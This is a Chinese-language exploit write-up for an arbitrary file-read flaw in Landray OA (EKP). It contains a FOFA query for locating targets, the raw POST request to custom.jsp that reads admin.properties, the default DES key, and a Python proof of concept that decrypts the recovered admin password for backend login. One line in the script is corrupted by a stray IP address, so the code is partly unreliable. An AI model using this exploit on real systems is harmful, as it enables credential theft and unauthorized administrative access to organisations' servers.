



# 

[↓↓↓](https://www.cnblogs.com/chen-w/p/14884175.html)  
  
蓝凌OA后台密码读解密+POC  
  
[↑↑↑](https://www.cnblogs.com/chen-w/p/14884175.html)

### 漏洞描述

```shell
蓝凌OA(EKP)存在任意文件读取漏洞。可利用漏洞获取敏感信息，读取配置文件得到密码后访问后台
http://x.x.x.x/admin.do 
```

### 漏洞影响版本

```shell
蓝凌OA
```

### FOFA

```shell
app="Landray-OA系统"
```

### 漏洞复现过程

```shell
利用custom.jsp任意文件读取漏洞来读取配置文件
```

Payload如下：

```shell
请求：http://x.x.x.x/sys/ui/extend/varkind/custom.jsp
读取配置文件：/WEB-INF/KmssConfig/admin.properties，此处需要写为如下格式：
var={"body":{"file":"/WEB-INF/KmssConfig/admin.properties"}}
```

在BurpSuite上的数据包如下：

```shell
POST /sys/ui/extend/varkind/custom.jsp HTTP/1.1
Host: x.x.x.x
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.77 Safari/537.36
Content-Length: 60
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

var={"body":{"file":"/WEB-INF/KmssConfig/admin.properties"}}
```



接着可以将得到的密钥：JMK83aAgUCrm2fHdvJWIEQ== 拿去DES在线解密网站进行解密

```shell
默认密钥：kmssAdminKey
```

在线解密网站：

```shell
http://tool.chacuo.net/cryptdes
```


接着拿着解密后的密钥去后台进行登录：

```shell
后台：http://x.x.x.x/admin.do
```



### POC

```python
# -*- coding: utf-8 -*-
# @Author: Adura
# @Date:   2021-06-09 10:54:47
# @Last Modified by:   chenw
# @Last Modified time: 2021-06-09 11:03:01
import requests
import sys
import re
import base64
from pyDes import des, ECB, PAD_PKCS5
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)


def title():
    print('+-------------------------------------------------')
    print('+  \033[31mPOC_by: Chenw                   \033[0m')
    print('+  \033[31m漏洞名称: 蓝凌OA任意文件读取         \033[0m')
    print('+  \033[36m使用格式:  python3 Poc.py         \033[0m')
    print('+  \033[36m请输入URL: >>> http://ip:端口     \033[0m')
    print('+-------------------------------------------------')


def POC(url): 
    url1 =url
    url2 =url1+'/sys/ui/extend/varkind/custom.jsp'
    headers={
    "User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36",
    "Content-Type":"application/x-www-form-urlencoded"
            }
    data='var={"body":{"file":"/WEB-INF/KmssConfig/admin.properties"}}'

    #data='var={"body":{"file":"file:///etc/passwd"}}'
    try:
        r = requests.post(url=url2,headers=headers,data=data,verify=False,timeout=10)
        if r.status_code == 200 and 'password' in r.text:
            print(url+'存在蓝凌OA SSRF漏洞')
            print('登录地址：'+url+'/admin.do')
            data = r.text.strip()
            data =str(data)
            data1 = data.split()
            data2 = ''.join(data1)
            password = re.findall(r"password=(.*?)\\rkmss",data2,re.I | re.M)
            password1 = str(password)
            KEY = 'kmssAdmi'
            try:
                secret_key = KEY
                iv = secret_key
                k = des(secret_key, ECB, iv, pad=None, padmode=PAD_PKCS5)
                decrystr = k.decrypt(base64.b64decode(password1))
                decrystr2 = str(decrystr, 'utf-8').strip(':')
                print('&*****&'+'后台密码为:' + decrystr2)
            except Exception as e:
                print('解密失败')

        else:http://8.129.43.243:8081/
            print(url+'\033[31m[x] 不存在漏洞 \033[0m')

    except Exception as e:
        print(url+'异常退出')	

if __name__ == '__main__':
	title()
	url = str(input("\033[35m请输入攻击目标的Url \nUrl >>> \033[0m"))
	POC(url)
```

使用Poc解密如下：



### 免责声明

```shell
严禁读者利用以上介绍知识点对网站进行非法操作 , 本文仅用于技术交流和学习 , 如果您利用文章中介绍的知识对他人造成损失 , 后果由您自行承担 , 如果您不能同意该约定 , 请您务必不要阅读该文章 , 感谢您的配合 !
```

应该没人会转载。。。
